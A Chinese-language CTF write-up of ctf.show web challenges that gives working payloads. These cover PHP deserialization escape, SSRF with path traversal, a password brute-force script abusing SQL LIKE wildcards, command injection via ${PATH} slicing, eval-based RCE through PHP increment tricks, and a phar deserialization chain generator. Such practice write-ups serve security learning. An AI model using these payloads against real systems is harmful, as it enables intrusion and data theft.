日常练习题 题目来源：[ctf.show](https://ctf.show/)

## 月饼杯

### Web1\_此月圆

题目附件中有的index.php

```
<?php
class a
{
	public $uname;
	public $password;
	public function __construct($uname,$password)
	{
		$this->uname=$uname;
		$this->password=$password;
	}
	public function __wakeup()
	{
			if($this->password==='yu22x')
			{
				include('flag.php');
				echo $flag;	
			}
			else
			{
				echo 'wrong password';
			}
		}
	}
function filter($string){
    return str_replace('Firebasky','Firebaskyup',$string);
}
$uname=$_GET[1];
$password=1;
$ser=filter(serialize(new a($uname,$password)));
$test=unserialize($ser);
?>
```

这里只能GET传入一个名为1的变量，password是已经设置好为1的

但是在这个代码里还存在一个filter函数，将Firebasky替换成了Firebaskyup

这是可以进行反序列化字符逃逸的攻击点

在wakeup魔术方法里，当passsword是yu22x的时候便会输出flag

那么下面进行构造字符串

由于有filter的存在，每一个Firebasky会逃逸出2个字符



```
我们想要构造的字符串是这样的
";s:8:"password";s:5:"yu22x";}
长度为30
```

那么就需要uname里面有15个Firebasky，来造成30个长度的溢出

```
POC:
?1= FirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebasky";s:8:"password";s:5:"yu22x";}
```

### Web2\_故人心

代码审计题

```
<?php
error_reporting(0);
highlight_file(__FILE__);
$a=$_GET['a'];
$b=$_GET['b'];
$c=$_GET['c'];
$url[1]=$_POST['url'];
if(is_numeric($a) and strlen($a)<7 and $a!=0 and $a**2==0){
    $d = ($b==hash("md2", $b)) && ($c==hash("md2",hash("md2", $c)));
    if($d){
             highlight_file('hint.php');
             if(filter_var($url[1],FILTER_VALIDATE_URL)){
                $host=parse_url($url[1]);
                print_r($host); 
                if(preg_match('/ctfshow\.com$/',$host['host'])){
                    print_r(file_get_contents($url[1]));
                }else{
                    echo '差点点就成功了！';
                }
            }else{
                echo 'please give me url!!!';
            }     
    }else{
        echo '想一想md5碰撞原理吧?!';
    }
}else{
    echo '第一个都过不了还想要flag呀?!';
}
```

一层一层的来看吧

第一层：

a是数字，长度小于7，不等于0，但是平方后等于0

其实只要构造一个极小的数字就可以了

用科学计数法：

a=1e-200 就是1的负200次方 0.000000...1，再平方一下这个数已经小到计算机都不想要了，所以说平方就等于0咯。

第二层：

b要等于b的md2值，然后c要等于c的md2值的md2值

这里涉及到弱比较，要求等号两端都要是0e开头

直接跑的话都不知道要跑多久，不过在robots.txt里发现hint



可以看到给出了末尾几位数

根据这个来写一个脚本

```
<?php
for ($i = 0; $i < 10000000; $i++) {
    $a=hash('md2','0e'.$i.'024452');
    if (is_numeric($a)&&substr($a,0,2)=='0e')
    {
        echo '1=0e'.$i.'024452';
        echo PHP_EOL;
    }
    $b=hash('md2',hash('md2','0e'.$i.'48399'));
    if(is_numeric($b)&&substr($b,0,2)=='0e')
    {
        echo '2=0e'.$i.'48399';
        echo PHP_EOL;
    }
}
```

得到两个字符串：

```
b=0e652024452
c=0e603448399
```

第三层：  
要POST一个url

hint说了flag在/f10g.txt里

这里filter\_var函数可以解析很多协议

这里的话尝试用SSRF，使用不存在的协议

php遇到不认识的协议就会当目录处理

于是构造如下payload，配合目录穿越一下得到flag

```
url=a://ctfshow.com/../../../../../../../fl0g.txt
```



### Web3\_莫负婵娟

在源代码里发现部分代码

```
<!-- username yu22x -->
<!-- SELECT * FROM users where username like binary('$username') and password like binary('$password')-->
```

看来是like模糊查询，%是sql语句中的通配符，可以匹配多个字符，下划线\_\_\_可以匹配一个字符

这里%被ban了，不过下划线可以使用

首先测试得到密码有32位

当密码大于或小于32位的时候会报

wrong username or password

而密码是32位的时候报的是

I have filtered all the characters. Why can you come in? get out!

知道位数就可以写脚本爆破了

脚本如下：

```
import requests
import string
dict=string.digits+string.ascii_letters
url='http://3bf67942-614c-402b-a661-0b62f443f665.challenge.ctf.show/login.php'
password=''
for i in range(32):
    for j in dict:
        passwd=password+j+(31-i)*'_'
        data={'username':'yu22x',"password":passwd}
        r=requests.post(url=url,data=data)
        if 'wrong' not in r.text:
            password+=j
            print(password)
            break;
```

跑出来密码是：67815b0c009ee970fe4014abaa3Fa6A0

然后下一个界面是



一些常见的命令执行符号都被过滤掉了

看了看网上的wp，小写字母全被过滤。大写字母、数字、`$`、`:`没被过滤。

有个新思路，利用环境变量来构造字符串



可以看到系统的环境变量是这样的，我们可以用切片操作来取出其中的字母，像下面这样



```
0;${PATH:5:1}${PATH:2:1}  
//ls  爆出目录
```



看到flag在第一个文件

可以利用nl命令读取第一个文件

这里星号被过滤，但是问号没被过滤

```
poc：
0;${PATH:14:1}${PATH:5:1} ????.???
//0；nl flag.php
```

## 吃瓜杯

### shellme

这道题有问题，phpinfo之间Ctrl+F就能找到flag

### shellme\_Revenge

这道题进去也是phpinfo，找找有效信息

在php变量里找到hint



得到源码如下：

```
 <?php
error_reporting(0);
if ($_GET['looklook']){
    highlight_file(__FILE__);
}else{
    setcookie("hint", "?looklook", time()+3600);
}
if (isset($_POST['ctf_show'])) {
    $ctfshow = $_POST['ctf_show'];
    if (is_string($ctfshow) || strlen($ctfshow) <= 107) {
        if (!preg_match("/[!@#%^&*:'\"|`a-zA-BD-Z~\\\\]|[4-9]/",$ctfshow)){
            eval($ctfshow);
        }else{
            echo("fucccc hacker!!");
        }
    }
} else {

    phpinfo();
}
?> 
```

一个命令执行，过滤了大小写字母（C可以用）、一些特殊符号以及4-9之间的数字

不过自增构造命令的关键要素： $ \_ \[ \] ; + = 没有过滤掉

这里就尝试使用自增来进行命令执行

我们的目的是要构造system(order)这样的命令

但是又不能出现字母，那就只能引入外部的参数，所以要构造为

```
$_GET[1]($_GET[2]);
```

php代码如下：

```
<?php
$_=C;
$_++;
$_++;
$__=$_;//E
$_++;
$_++;
$___=$_;//G
$_=(C/C.C)[0];//N  这句话的意思，字母/字母=0/0就会被认为是无法被测量也就是NaN可以取得N字母
$_++;//o    
$_++;//p
$_++;//q
$_++;//r
$_++;//s
$_=_.$___.$__.++$_;//_GET
$$_[1]($$_[2]);//$_GET[1]($_GET[2]);

post的时候要url编码一次
这里有个坑，在phpinfo里也可以发现，system这个函数被ban了，不过可以替代他的passthru没有被ban
就可以利用passthru来进行命令执行
```



### 热身

签到体

看看代码审计

```
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

首先不能等于4476，然后不能有字母和小数点，strpos在num里找0（这里没给参数，默认从0位开始找）

最后intval里的参数0，说明了根据变量类型来转换，意思就是可以传八进制或者16进制

那么思路就有了：

num我们可以用八进制来绕过，因为八进制不需要字母

strpos函数的话只需要在num的\[1\]这个下标里是0，那么strpos就返回1，然后if里就变成0，则不执行

```
POC:
?num=+010574
```

### ATTup

有两个界面，一个上传，一个查询

先看看查询



看到一个find.php，尝试用find.php来查看他自己

抓个包,发送到repeater ,直接放包的话他会一直弹窗,不好看



我们在find.php发现以下PHP代码

```
class View {
    public $fn;
    public function __invoke(){
        $text = base64_encode(file_get_contents($this->fn));
        echo "<script>alert('".$text."');self.location=document.referrer;</script>";
    }
}
class Fun{
    public $fun = ":)";
    public function __toString(){
        $fuc = $this->fun;
        $fuc();
        return "<script>alert('Be a happy string~');self.location=document.referrer;</script>";
    }
    public function __destruct()
    {
        echo "<script>alert('Just a fun ".$this->fun."');self.location=document.referrer;</script>";
    }
}
$filename = $_POST["file"];
$stat = @stat($filename);-->
```

有文件上传,又有读取文件,那么应该就是phar反序列化了,

先上poc:

```
<?php

class Fun{
    public $fun ;

}
class View {
  public $fn='/flag';
  
}

$d=new Fun();//实例化对象
$v = new View();//实例化对象
$d->fun = $v;//第一层嵌套，为了触发invoke而准备的
$new = new Fun();//再实例化一个对象
$new->fun = $d;//为触发tostring而准备的

$phar = new Phar("test.phar"); //文件名，后缀名必须为phar
$phar->startBuffering();
$phar->setStub('GIF89a'.' __HALT_COMPILER();'); //设置stub
$phar->setMetadata($new); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
$phar->stopBuffering();    //签名自动计算
```

解释一下,这里实例了三个对象,分别是d v 和new

形成了这样的链条:

new->fun指向d d->fun指向v

因为在生成的phar文件中自定义的data是new

在@stat读取文件的时候就先从new这里读

我画了一张图:



触发链就是这样的,用上面的php代码生成一个phar文件上传

然后再用phar协议读取文件就能得到flag,记得要改为zip或者rar文件后缀

### 魔女(未完成

这道题没做出来,网上也没有wp,就只能写写过程



进去是一个登陆界面

在源代码中发现



界面中是没有register的,这里我们抓包修改一下dologin,实现注册一个账户



进入之后有几个界面, 分别是主页, 修改信息, 个人资料, 以及退出登录

主页里没什么东西,就一只猫在那里晃



然后个人资料里有一个下载图片的链接



我们抓一下包,发现文件名字是可控的



这里我们尝试下index.php



包含了一个base.php, 那再把它下载一下

base.php 的代码如下

```
<?php

define('CTF', 'SHOW');
define('DEBUG',true);
define('WEB_ROOT',__DIR__.DIRECTORY_SEPARATOR);
define('WEB_APP_ROOT',WEB_ROOT.'application'.DIRECTORY_SEPARATOR);
define('FRAMEWORK_ROOT',WEB_ROOT.'framework'.DIRECTORY_SEPARATOR);
define('DEFAULT_METHOD','main');
define('DEFAULT_ACTION','index');
define('DEFAULT_TABLE_PRE','ctfshow_');
define('DEFAULT_EXT','.php');
define('DEFAULT_ACTION_DIR','action');
define('DEFAULT_MODEL_DIR','model');
define('DEFAULT_TEMPLATES_DIR','templates');
define('DEFAULT_COOKIE','ctfshow');
define('TEMPLATE_PATH',WEB_APP_ROOT.DEFAULT_TEMPLATES_DIR.DIRECTORY_SEPARATOR);
define('ACTION_PATH',WEB_APP_ROOT.DEFAULT_ACTION_DIR.DIRECTORY_SEPARATOR);
define('CLASS_PATH',FRAMEWORK_ROOT.'class'.DIRECTORY_SEPARATOR);
define('INCLUDE_PATH',WEB_APP_ROOT.'include'.DIRECTORY_SEPARATOR);
define('MODEL_PATH',WEB_APP_ROOT.'model'.DIRECTORY_SEPARATOR);
define('STATIC_PATH',WEB_ROOT.'www'.DIRECTORY_SEPARATOR.'static'.DIRECTORY_SEPARATOR);
define('AVATAR_PATH',STATIC_PATH.'img'.DIRECTORY_SEPARATOR.'avatar'.DIRECTORY_SEPARATOR);

session_start();

require_once FRAMEWORK_ROOT.'ctfshow.php';

spl_autoload_register(function($class){
	
	if(file_exists(CLASS_PATH.strtolower($class).DEFAULT_EXT)){
			return include CLASS_PATH.strtolower($class).DEFAULT_EXT;
	}
	if(file_exists(MODEL_PATH.strtolower($class).DEFAULT_EXT)){
			return include MODEL_PATH.strtolower($class).DEFAULT_EXT;
	}
	if(file_exists(ACTION_PATH.strtolower($class).DEFAULT_EXT)){
			return include ACTION_PATH.strtolower($class).DEFAULT_EXT;
	}

});

ctfshow::run();
<script language=JavaScript> location.replace(location.href);</script>
```

这里面又包含了一个ctfshow.php

而且看了一下,ctfshow.php的路径是/var/www/html/framework/ctfshow.php

下载下来源码是这样的:

```
<?php

class ctfshow{

	private static $hook;

	public static function run(){
		$action = self::get_action();
		$method = self::get_method();
		self::$hook=new hook($action,$method,self::get_args());
		self::$hook->$method();

	}

	

	public static function get_action(){
		if(isset($_COOKIE['a']) && preg_match('/^[a-z]+$/', $_COOKIE['a'])){
			return $_COOKIE['a'];
		}else{
			return DEFAULT_ACTION;
		}
	}

	public static function get_method(){
		if(isset($_COOKIE['m']) && preg_match('/^[a-z]+$/', $_COOKIE['m'])){
			return $_COOKIE['m'];
		}else{
			return DEFAULT_METHOD;
		}
	}

	public static function get_args(){
		$ret = array();
		if($_COOKIE[DEFAULT_COOKIE]!=null){
			$args = $_COOKIE[DEFAULT_COOKIE];
			if($args!='' && strpos($args, '|')>0){
				$ret= explode('|', $args);
			}
		}
		return $ret;
	}

}<script language=JavaScript> location.replace(location.href);</script>
```

到这里就没什么思路了.....后面有wp了再学习学习
